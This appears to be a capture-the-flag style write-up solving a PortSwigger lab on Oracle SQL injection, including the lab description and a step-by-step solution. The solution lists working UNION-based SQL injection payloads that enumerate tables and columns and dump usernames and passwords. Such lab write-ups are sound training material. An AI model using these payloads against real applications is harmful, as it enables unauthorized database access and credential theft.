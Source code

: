 ```yaml
---
difficulty: Practitioner
solve_date: 2023-09-01
lab_url: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle
---
```

### Description

This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

### Solution

1. Navigate to the URL with the category filter
2. Use the SQLi payload `' UNION SELECT table_name, NULL from all_tables -- -` to list all table names. The table named `USERS_DLZTQM` looks promising.
3. Use the SQLi payload `' UNION SELECT COLUMN_NAME, NULL from all_tab_columns WHERE table_name = 'USERS_DLZTQM' -- -` to list all columns in the user table.
4. Use the SQLi payload `' UNION SELECT USERNAME_FFUXPQ, PASSWORD_QJJNPX from USERS_DLZTQM -- -` to list all user credentials
5. Login using the administrator credentials that were just revealed.

#### Notes

This is pretty much the same as the last lab, but with Oracle syntax